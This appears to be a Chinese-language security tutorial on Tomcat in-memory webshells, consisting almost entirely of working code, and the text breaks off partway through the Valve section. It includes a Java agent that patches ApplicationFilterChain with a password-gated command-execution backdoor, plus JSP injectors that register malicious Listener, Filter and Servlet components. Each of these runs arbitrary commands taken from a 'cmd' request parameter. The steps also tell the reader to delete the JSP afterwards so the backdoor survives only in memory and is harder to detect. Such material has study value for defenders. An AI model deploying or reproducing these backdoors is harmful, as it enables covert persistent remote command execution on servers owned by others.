1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 package org.example;import javassist.*;import java.io.BufferedReader;import java.io.InputStream;import java.io.InputStreamReader;import java.lang.instrument.ClassFileTransformer;import java.lang.instrument.IllegalClassFormatException;import java.lang.instrument.Instrumentation;import java.lang.instrument.UnmodifiableClassException;import java.security.ProtectionDomain;public class AgentMain public static void agentmain (String agentArgs, Instrumentation inst) throws UnmodifiableClassException System.out.println("agentmain invoke ! ! !" ); Class[] classes = inst.getAllLoadedClasses(); for (Class aClass : classes) { if (aClass.getName().equals("org.apache.catalina.core.ApplicationFilterChain" )) { inst.addTransformer(new TransformerDemo(), true ); inst.retransformClasses(aClass); } } } } class TransformerDemo implements ClassFileTransformer @Override public byte [] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte [] classfileBuffer) throws IllegalClassFormatException { try { ClassPool cp = ClassPool.getDefault(); ClassClassPath classPath = new ClassClassPath(classBeingRedefined); cp.insertClassPath(classPath); CtClass ctc = cp.get("org.apache.catalina.core.ApplicationFilterChain" ); CtMethod method = ctc.getDeclaredMethod("internalDoFilter" ); String source = readSource(); method.insertBefore(source); byte [] bytes = ctc.toBytecode(); ctc.detach(); return bytes; } catch (Exception e){ e.printStackTrace(); } return classfileBuffer; } public static String readSource () StringBuilder source=new StringBuilder(); InputStream is = TransformerDemo.class.getClassLoader().getResourceAsStream("source.txt" ); InputStreamReader isr = new InputStreamReader(is); String line=null ; try { BufferedReader br = new BufferedReader(isr); while ((line=br.readLine()) != null ) { source.append(line); } } catch (Exception e) { e.printStackTrace(); } return source.toString(); } }
2、source.txt
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 javax.servlet.http.HttpServletRequest request=$1 ; javax.servlet.http.HttpServletResponse response = $2 ; String pass=request.getParameter("pass" ); String model=request.getParameter("model" ); String result="" ; try { if (pass!=null &&pass.equals("self" )) { if (model.equals("exec" )) { String cmd=request.getParameter("cmd" ); if (cmd != null && cmd.length() > 0 ) { Process p = Runtime.getRuntime().exec(cmd); java.io.OutputStream os = p.getOutputStream(); java.io.InputStream in = p.getInputStream(); java.io.DataInputStream dis = new java.io.DataInputStream(in); String disr = dis.readLine(); while (disr != null ) { result = result + disr + "\n" ; disr = dis.readLine(); } } } response.getWriter().print(result); return ; } } catch (Exception e) { response.getWriter().print(e.getMessage()); }
3、编译成AgentMain.jar，使用解压软件打开jar包，将source.txt复杂到jar包内
4、启动tomcat，然后启动attachmain
5、访问任意路由，带上这些参数pass=self&model=exec&cmd=ipconfig
获取StandardContext对象 参考：https://xz.aliyun.com/t/9914
servlet规范型内存马是动态注册符合servlet规范的自定义恶意组件到web容器中，servlet规范型内存马都是基于修改StandardContext实现的。
bitterz师傅将获取StandardContext对象的方法总结在了一起，我这里仅展示实现代码，详情查看https://xz.aliyun.com/t/9914
1、从request对象可以获取servletContext再一步一步获取standardContext。（需要request）
1 2 3 4 5 6 7 8 9 javax.servlet.ServletContext servletContext = request.getServletContext();对象 Field appctx = servletContext.getClass().getDeclaredField("context" ); appctx.setAccessible(true ); ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext); Field stdctx = applicationContext.getClass().getDeclaredField("context" ); stdctx.setAccessible(true ); StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
2、从ContextClassLoader获取servletContext（限制在于只可用于Tomcat 8 9）
1 2 3 org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader(); StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();
3、遍历thread数组获取servletContext（Tomcat全版本）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="org.apache.catalina.core.StandardEngine" %> <%@ page import ="org.apache.catalina.core.StandardHost" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.HashMap" %> <%@ page import ="java.util.Iterator" %> <% class Tomcat6789 String uri; String serverName; StandardContext standardContext; public Object getField (Object object, String fieldName) Field declaredField; Class clazz = object.getClass(); while (clazz != Object.class) { try { declaredField = clazz.getDeclaredField(fieldName); declaredField.setAccessible(true ); return declaredField.get(object); } catch (NoSuchFieldException e){} catch (IllegalAccessException e){} clazz = clazz.getSuperclass(); } return null ; } public Tomcat6789 () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); Object object; for (Thread thread : threads) { if (thread == null ) { continue ; } if (thread.getName().contains("exec" )) { continue ; } Object target = this .getField(thread, "target" ); if (!(target instanceof Runnable)) { continue ; } try { object = getField(getField(getField(target, "this$0" ), "handler" ), "global" ); } catch (Exception e) { continue ; } if (object == null ) { continue ; } java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors" ); Iterator iterator = processors.iterator(); while (iterator.hasNext()) { Object next = iterator.next(); Object req = getField(next, "req" ); Object serverPort = getField(req, "serverPort" ); if (serverPort.equals(-1 )){continue ;} org.apache.tomcat.util.buf.MessageBytes serverNameMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "serverNameMB" ); this .serverName = (String) getField(serverNameMB, "strValue" ); if (this .serverName == null ){ this .serverName = serverNameMB.toString(); } if (this .serverName == null ){ this .serverName = serverNameMB.getString(); } org.apache.tomcat.util.buf.MessageBytes uriMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "uriMB" ); this .uri = (String) getField(uriMB, "strValue" ); if (this .uri == null ){ this .uri = uriMB.toString(); } if (this .uri == null ){ this .uri = uriMB.getString(); } this .getStandardContext(); return ; } } } public void getStandardContext () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); for (Thread thread : threads) { if (thread == null ) { continue ; } if ((thread.getName().contains("Acceptor" )) && (thread.getName().contains("http" ))) { Object target = this .getField(thread, "target" ); HashMap children; Object jioEndPoint = null ; try { jioEndPoint = getField(target, "this$0" ); }catch (Exception e){} if (jioEndPoint == null ){ try { jioEndPoint = getField(target, "endpoint" ); }catch (Exception e){ return ; } } Object service = getField(getField(getField(getField(getField(jioEndPoint, "handler" ), "proto" ), "adapter" ), "connector" ), "service" ); StandardEngine engine = null ; try { engine = (StandardEngine) getField(service, "container" ); }catch (Exception e){} if (engine == null ){ engine = (StandardEngine) getField(service, "engine" ); } children = (HashMap) getField(engine, "children" ); StandardHost standardHost = (StandardHost) children.get(this .serverName); children = (HashMap) getField(standardHost, "children" ); Iterator iterator = children.keySet().iterator(); while (iterator.hasNext()){ String contextKey = (String) iterator.next(); if (!(this .uri.startsWith(contextKey))){continue ;} StandardContext standardContext = (StandardContext) children.get(contextKey); this .standardContext = standardContext; return ; } } } } public StandardContext getSTC () return this .standardContext; } } %> <% Tomcat6789 a = new Tomcat6789(); StandardContext standardContext = a.getSTC() %>
Listener内存马实现 Listener内存马实现非常简单，只需调用addApplicationEventListener方法注入一个listener对象即可
获取StandardContext对象
构造listener对象
将listener添加到初始化的应用程序事件侦听器列表的末尾
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="org.apache.catalina.core.StandardEngine" %> <%@ page import ="org.apache.catalina.core.StandardHost" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.HashMap" %> <%@ page import ="java.util.Iterator" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="java.io.PrintWriter" %> <%@ page import ="java.io.IOException" %> <%@ page import ="org.apache.catalina.connector.Request" %> <% class Tomcat6789 String uri; String serverName; StandardContext standardContext; public Object getField (Object object, String fieldName) Field declaredField; Class clazz = object.getClass(); while (clazz != Object.class) { try { declaredField = clazz.getDeclaredField(fieldName); declaredField.setAccessible(true ); return declaredField.get(object); } catch (NoSuchFieldException e){} catch (IllegalAccessException e){} clazz = clazz.getSuperclass(); } return null ; } public Tomcat6789 () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); Object object; for (Thread thread : threads) { if (thread == null ) { continue ; } if (thread.getName().contains("exec" )) { continue ; } Object target = this .getField(thread, "target" ); if (!(target instanceof Runnable)) { continue ; } try { object = getField(getField(getField(target, "this$0" ), "handler" ), "global" ); } catch (Exception e) { continue ; } if (object == null ) { continue ; } java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors" ); Iterator iterator = processors.iterator(); while (iterator.hasNext()) { Object next = iterator.next(); Object req = getField(next, "req" ); Object serverPort = getField(req, "serverPort" ); if (serverPort.equals(-1 )){continue ;} org.apache.tomcat.util.buf.MessageBytes serverNameMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "serverNameMB" ); this .serverName = (String) getField(serverNameMB, "strValue" ); if (this .serverName == null ){ this .serverName = serverNameMB.toString(); } if (this .serverName == null ){ this .serverName = serverNameMB.getString(); } org.apache.tomcat.util.buf.MessageBytes uriMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "uriMB" ); this .uri = (String) getField(uriMB, "strValue" ); if (this .uri == null ){ this .uri = uriMB.toString(); } if (this .uri == null ){ this .uri = uriMB.getString(); } this .getStandardContext(); return ; } } } public void getStandardContext () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); for (Thread thread : threads) { if (thread == null ) { continue ; } if ((thread.getName().contains("Acceptor" )) && (thread.getName().contains("http" ))) { Object target = this .getField(thread, "target" ); HashMap children; Object jioEndPoint = null ; try { jioEndPoint = getField(target, "this$0" ); }catch (Exception e){} if (jioEndPoint == null ){ try { jioEndPoint = getField(target, "endpoint" ); }catch (Exception e){ return ; } } Object service = getField(getField(getField(getField(getField(jioEndPoint, "handler" ), "proto" ), "adapter" ), "connector" ), "service" ); StandardEngine engine = null ; try { engine = (StandardEngine) getField(service, "container" ); }catch (Exception e){} if (engine == null ){ engine = (StandardEngine) getField(service, "engine" ); } children = (HashMap) getField(engine, "children" ); StandardHost standardHost = (StandardHost) children.get(this .serverName); children = (HashMap) getField(standardHost, "children" ); Iterator iterator = children.keySet().iterator(); while (iterator.hasNext()){ String contextKey = (String) iterator.next(); if (!(this .uri.startsWith(contextKey))){continue ;} StandardContext standardContext = (StandardContext) children.get(contextKey); this .standardContext = standardContext; return ; } } } } public StandardContext getSTC () return this .standardContext; } } %> <% try { Tomcat6789 a = new Tomcat6789(); StandardContext standardContext = a.getSTC(); ServletRequestListener listener = new ServletRequestListener() { @Override public void requestDestroyed (ServletRequestEvent sre) HttpServletRequest req = (HttpServletRequest) sre.getServletRequest(); String cmd = req.getParameter("cmd" ); if (cmd != null ){ try { InputStream in = Runtime.getRuntime().exec(cmd).getInputStream(); Scanner s = new Scanner(in).useDelimiter("\\A" ); String output = s.hasNext() ? s.next() : "" ; Field requestF = req.getClass().getDeclaredField("request" ); requestF.setAccessible(true ); Request request = (Request)requestF.get(req); PrintWriter out= request.getResponse().getWriter(); out.println(output); out.flush(); out.close(); } catch (Exception e) {} } } @Override public void requestInitialized (ServletRequestEvent sre) }; standardContext.addApplicationEventListener(listener); } catch (Exception e) { e.printStackTrace(); } %>
访问注入内存马的jsp文件，然后删除jsp文件，访问任意路由，添加cmd参数执行命令
Filter内存马实现
获取filterConfigs
创建恶意filter
获取FilterDef对象并设置filter、filterName和filterClass
调用addFilterDef为Context添加一个Filter定义
获取FilterMap并设置其URLPattern、FilterName和Dispatcher
添加一个Filter映射到这个Context
获取ApplicationFilterConfig，注入filterDef
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="org.apache.catalina.core.StandardEngine" %> <%@ page import ="org.apache.catalina.core.StandardHost" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.HashMap" %> <%@ page import ="java.util.Iterator" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.Map" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.io.IOException" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="java.lang.reflect.Constructor" %> <%@ page import ="org.apache.tomcat.util.descriptor.web.FilterDef" %> <%@ page import ="org.apache.tomcat.util.descriptor.web.FilterMap" %> <%@ page import ="org.apache.catalina.Context" %> <%@ page import ="org.apache.catalina.core.ApplicationFilterConfig" %> <%@ page import ="java.io.PrintWriter" %> <% class Tomcat6789 String uri; String serverName; StandardContext standardContext; public Object getField (Object object, String fieldName) Field declaredField; Class clazz = object.getClass(); while (clazz != Object.class) { try { declaredField = clazz.getDeclaredField(fieldName); declaredField.setAccessible(true ); return declaredField.get(object); } catch (NoSuchFieldException e){} catch (IllegalAccessException e){} clazz = clazz.getSuperclass(); } return null ; } public Tomcat6789 () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); Object object; for (Thread thread : threads) { if (thread == null ) { continue ; } if (thread.getName().contains("exec" )) { continue ; } Object target = this .getField(thread, "target" ); if (!(target instanceof Runnable)) { continue ; } try { object = getField(getField(getField(target, "this$0" ), "handler" ), "global" ); } catch (Exception e) { continue ; } if (object == null ) { continue ; } java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors" ); Iterator iterator = processors.iterator(); while (iterator.hasNext()) { Object next = iterator.next(); Object req = getField(next, "req" ); Object serverPort = getField(req, "serverPort" ); if (serverPort.equals(-1 )){continue ;} org.apache.tomcat.util.buf.MessageBytes serverNameMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "serverNameMB" ); this .serverName = (String) getField(serverNameMB, "strValue" ); if (this .serverName == null ){ this .serverName = serverNameMB.toString(); } if (this .serverName == null ){ this .serverName = serverNameMB.getString(); } org.apache.tomcat.util.buf.MessageBytes uriMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "uriMB" ); this .uri = (String) getField(uriMB, "strValue" ); if (this .uri == null ){ this .uri = uriMB.toString(); } if (this .uri == null ){ this .uri = uriMB.getString(); } this .getStandardContext(); return ; } } } public void getStandardContext () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); for (Thread thread : threads) { if (thread == null ) { continue ; } if ((thread.getName().contains("Acceptor" )) && (thread.getName().contains("http" ))) { Object target = this .getField(thread, "target" ); HashMap children; Object jioEndPoint = null ; try { jioEndPoint = getField(target, "this$0" ); }catch (Exception e){} if (jioEndPoint == null ){ try { jioEndPoint = getField(target, "endpoint" ); }catch (Exception e){ return ; } } Object service = getField(getField(getField(getField(getField(jioEndPoint, "handler" ), "proto" ), "adapter" ), "connector" ), "service" ); StandardEngine engine = null ; try { engine = (StandardEngine) getField(service, "container" ); }catch (Exception e){} if (engine == null ){ engine = (StandardEngine) getField(service, "engine" ); } children = (HashMap) getField(engine, "children" ); StandardHost standardHost = (StandardHost) children.get(this .serverName); children = (HashMap) getField(standardHost, "children" ); Iterator iterator = children.keySet().iterator(); while (iterator.hasNext()){ String contextKey = (String) iterator.next(); if (!(this .uri.startsWith(contextKey))){continue ;} StandardContext standardContext = (StandardContext) children.get(contextKey); this .standardContext = standardContext; return ; } } } } public StandardContext getSTC () return this .standardContext; } } %> <% try { Tomcat6789 a = new Tomcat6789(); StandardContext standardContext = a.getSTC(); Field Configs = standardContext.getClass().getDeclaredField("filterConfigs" ); Configs.setAccessible(true ); Map filterConfigs = (Map) Configs.get(standardContext); String FilterName = "CmdFilter" ; Filter filter = new Filter() { @Override public void init (FilterConfig filterConfig) @Override public void doFilter (ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException HttpServletRequest req = (HttpServletRequest) servletRequest; if (req.getParameter("cmd" ) != null ) { InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd" )).getInputStream(); Scanner s = new Scanner(in).useDelimiter("\\A" ); String output = s.hasNext() ? s.next() : "" ; servletResponse.getWriter().write(output); PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } filterChain.doFilter(servletRequest, servletResponse); } @Override public void destroy () }; Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef" ); Constructor declaredConstructor1 = FilterDef.getDeclaredConstructor(); org.apache.tomcat.util.descriptor.web.FilterDef filterDef = (FilterDef) declaredConstructor1.newInstance(); filterDef.setFilter(filter); filterDef.setFilterName(FilterName); filterDef.setFilterClass(filter.getClass().getName()); standardContext.addFilterDef(filterDef); Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap" ); Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor(); org.apache.tomcat.util.descriptor.web.FilterMap filterMap = (FilterMap) declaredConstructor.newInstance(); filterMap.addURLPattern("/*" ); filterMap.setFilterName(FilterName); filterMap.setDispatcher(DispatcherType.REQUEST.name()); standardContext.addFilterMap(filterMap); Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig" ); Constructor<?> declaredConstructor2 = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class); declaredConstructor2.setAccessible(true ); org.apache.catalina.core.ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor2.newInstance(standardContext, filterDef); filterConfigs.put(FilterName, filterConfig); } catch (Exception e) { e.printStackTrace(); } %>
访问注入内存马的jsp文件，然后删除jsp文件，访问任意路由，添加cmd参数执行命令
servlet内存马实现
创建恶意servlet
创建wrapper，设置恶意servlet
添加到children容器中
设置servlet映射
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="org.apache.catalina.core.StandardEngine" %> <%@ page import ="org.apache.catalina.core.StandardHost" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.HashMap" %> <%@ page import ="java.util.Iterator" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.io.IOException" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="java.io.PrintWriter" %> <%@ page import ="org.apache.catalina.Wrapper" %> <% class Tomcat6789 String uri; String serverName; StandardContext standardContext; public Object getField (Object object, String fieldName) Field declaredField; Class clazz = object.getClass(); while (clazz != Object.class) { try { declaredField = clazz.getDeclaredField(fieldName); declaredField.setAccessible(true ); return declaredField.get(object); } catch (NoSuchFieldException e){} catch (IllegalAccessException e){} clazz = clazz.getSuperclass(); } return null ; } public Tomcat6789 () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); Object object; for (Thread thread : threads) { if (thread == null ) { continue ; } if (thread.getName().contains("exec" )) { continue ; } Object target = this .getField(thread, "target" ); if (!(target instanceof Runnable)) { continue ; } try { object = getField(getField(getField(target, "this$0" ), "handler" ), "global" ); } catch (Exception e) { continue ; } if (object == null ) { continue ; } java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors" ); Iterator iterator = processors.iterator(); while (iterator.hasNext()) { Object next = iterator.next(); Object req = getField(next, "req" ); Object serverPort = getField(req, "serverPort" ); if (serverPort.equals(-1 )){continue ;} org.apache.tomcat.util.buf.MessageBytes serverNameMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "serverNameMB" ); this .serverName = (String) getField(serverNameMB, "strValue" ); if (this .serverName == null ){ this .serverName = serverNameMB.toString(); } if (this .serverName == null ){ this .serverName = serverNameMB.getString(); } org.apache.tomcat.util.buf.MessageBytes uriMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "uriMB" ); this .uri = (String) getField(uriMB, "strValue" ); if (this .uri == null ){ this .uri = uriMB.toString(); } if (this .uri == null ){ this .uri = uriMB.getString(); } this .getStandardContext(); return ; } } } public void getStandardContext () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); for (Thread thread : threads) { if (thread == null ) { continue ; } if ((thread.getName().contains("Acceptor" )) && (thread.getName().contains("http" ))) { Object target = this .getField(thread, "target" ); HashMap children; Object jioEndPoint = null ; try { jioEndPoint = getField(target, "this$0" ); }catch (Exception e){} if (jioEndPoint == null ){ try { jioEndPoint = getField(target, "endpoint" ); }catch (Exception e){ return ; } } Object service = getField(getField(getField(getField(getField(jioEndPoint, "handler" ), "proto" ), "adapter" ), "connector" ), "service" ); StandardEngine engine = null ; try { engine = (StandardEngine) getField(service, "container" ); }catch (Exception e){} if (engine == null ){ engine = (StandardEngine) getField(service, "engine" ); } children = (HashMap) getField(engine, "children" ); StandardHost standardHost = (StandardHost) children.get(this .serverName); children = (HashMap) getField(standardHost, "children" ); Iterator iterator = children.keySet().iterator(); while (iterator.hasNext()){ String contextKey = (String) iterator.next(); if (!(this .uri.startsWith(contextKey))){continue ;} StandardContext standardContext = (StandardContext) children.get(contextKey); this .standardContext = standardContext; return ; } } } } public StandardContext getSTC () return this .standardContext; } } %> <% Tomcat6789 a = new Tomcat6789(); StandardContext standardContext = a.getSTC(); String servletURL = "/cmdServlet" ; String servletName = "CmdServlet" ; Servlet servlet = new Servlet() { @Override public void init (ServletConfig servletConfig) } @Override public ServletConfig getServletConfig () return null ; } @Override public void service (ServletRequest servletRequest, ServletResponse servletResponse) throws IOException String cmd = servletRequest.getParameter("cmd" ); if ("cmd" != null ) { InputStream in = Runtime.getRuntime().exec(cmd).getInputStream(); Scanner s = new Scanner(in).useDelimiter("\\A" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = servletResponse.getWriter(); out.println(output); out.flush(); out.close(); } } @Override public String getServletInfo () return null ; } @Override public void destroy () } }; Wrapper wrapper = standardContext.createWrapper(); wrapper.setName(servletName); wrapper.setServlet(servlet); wrapper.setServletClass(servlet.getClass().getName()); wrapper.setLoadOnStartup(1 ); standardContext.addChild(wrapper); standardContext.addServletMappingDecoded(servletURL, servletName); %>
访问注入内存马的jsp文件，然后删除jsp文件，访问/cmdServlet路由，添加cmd参数执行命令
Pipeline-Valve内存马实现 Container请求处理流程源码分析中讲到过Pineline的调用链，setNext、getNext、invoke 这三个方法，通过setNext设置该阀的下一阀，通过 getNext 返回该阀的下一个阀的引用，invoke 方法则执行该阀内部自定义的请求处理代码。
创建恶意valve
获取Pineline对象通过addValve增加恶意valve
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 <%@ page contentType="text/html;charset=UTF-8" language="java" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="org.apache.catalina.core.StandardEngine" %> <%@ page import ="org.apache.catalina.core.StandardHost" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="java.util.HashMap" %> <%@ page import ="java.util.Iterator" %> <%@ page import ="java.lang.reflect.Field" %> <%@ page import ="org.apache.catalina.core.ApplicationContext" %> <%@ page import ="org.apache.catalina.core.StandardContext" %> <%@ page import ="java.io.InputStream" %> <%@ page import ="java.util.Scanner" %> <%@ page import ="java.io.IOException" %> <%@ page import ="org.apache.catalina.connector.Request" %> <%@ page import ="org.apache.catalina.Valve" %> <%@ page import ="org.apache.catalina.connector.Response" %> <%@ page import ="java.io.PrintWriter" %> <% class Tomcat6789 String uri; String serverName; StandardContext standardContext; public Object getField (Object object, String fieldName) Field declaredField; Class clazz = object.getClass(); while (clazz != Object.class) { try { declaredField = clazz.getDeclaredField(fieldName); declaredField.setAccessible(true ); return declaredField.get(object); } catch (NoSuchFieldException e){} catch (IllegalAccessException e){} clazz = clazz.getSuperclass(); } return null ; } public Tomcat6789 () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); Object object; for (Thread thread : threads) { if (thread == null ) { continue ; } if (thread.getName().contains("exec" )) { continue ; } Object target = this .getField(thread, "target" ); if (!(target instanceof Runnable)) { continue ; } try { object = getField(getField(getField(target, "this$0" ), "handler" ), "global" ); } catch (Exception e) { continue ; } if (object == null ) { continue ; } java.util.ArrayList processors = (java.util.ArrayList) getField(object, "processors" ); Iterator iterator = processors.iterator(); while (iterator.hasNext()) { Object next = iterator.next(); Object req = getField(next, "req" ); Object serverPort = getField(req, "serverPort" ); if (serverPort.equals(-1 )){continue ;} org.apache.tomcat.util.buf.MessageBytes serverNameMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "serverNameMB" ); this .serverName = (String) getField(serverNameMB, "strValue" ); if (this .serverName == null ){ this .serverName = serverNameMB.toString(); } if (this .serverName == null ){ this .serverName = serverNameMB.getString(); } org.apache.tomcat.util.buf.MessageBytes uriMB = (org.apache.tomcat.util.buf.MessageBytes) getField(req, "uriMB" ); this .uri = (String) getField(uriMB, "strValue" ); if (this .uri == null ){ this .uri = uriMB.toString(); } if (this .uri == null ){ this .uri = uriMB.getString(); } this .getStandardContext(); return ; } } } public void getStandardContext () Thread[] threads = (Thread[]) this .getField(Thread.currentThread().getThreadGroup(), "threads" ); for (Thread thread : threads) { if (thread == null ) { continue ; } if ((thread.getName().contains("Acceptor" )) && (thread.getName().contains("http" ))) { Object target = this .getField(thread, "target" ); HashMap children; Object jioEndPoint = null ; try { jioEndPoint = getField(target, "this$0" ); }catch (Exception e){} if (jioEndPoint == null ){ try { jioEndPoint = getField(target, "endpoint" ); }catch (Exception e){ return ; } } Object service = getField(getField(getField(getField(getField(jioEndPoint, "handler" ), "proto" ), "adapter" ), "connector" ), "service" ); StandardEngine engine = null ; try { engine = (StandardEngine) getField(service, "container" ); }catch (Exception e){} if (engine == null ){ engine = (StandardEngine) getField(service, "engine" ); } children = (HashMap) getField(engine, "children" ); StandardHost standardHost = 